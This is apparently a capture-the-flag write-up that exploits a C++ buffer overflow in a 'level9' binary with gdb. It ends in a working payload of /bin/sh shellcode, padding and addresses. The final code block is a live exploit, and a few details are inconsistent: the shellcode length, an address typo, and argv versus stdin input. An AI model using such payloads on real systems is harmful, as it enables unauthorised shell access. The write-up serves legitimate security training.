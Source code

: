 We started by running the executable and found that it currently does nothing significant.
Analyzing it with `gdb`, we identified five interesting functions:
```
...
N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main
...
```
The main function is written in C/C++, and there are no direct calls to `/bin/sh`, indicating that we will need to use shellcode to exploit this program.

The `setAnnotation()` function uses `memcpy()` on `argv[1]`, making it vulnerable to a buffer overflow. We need to determine the offset at which the buffer overflows.

We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
The offset of `eax` start at 108.

We selected a 21-byte shellcode from: https://shell-storm.org/shellcode/files/shellcode-752.html

To exploit the buffer overflow, we must find the start address of our buffer and replace the value of `esp+0x10 `with it, ensuring that the call to `edx` will execute our shellcode.
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141
```
`
The value of `[esp+0x10] will be replaced with `0x804a00c`.
Because we need to dereference again, this address will points to the beginning of our shellcode : `0x804a00x + 4 = 0x804a010`.

Our payload structure is:
-   Shell Address: 4 bytes
-   Shellcode: 28 bytes
-   Padding: 76 bytes
-   Buffer Address: 4 bytes

Final exploit payload::
```
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"' | ./level9
```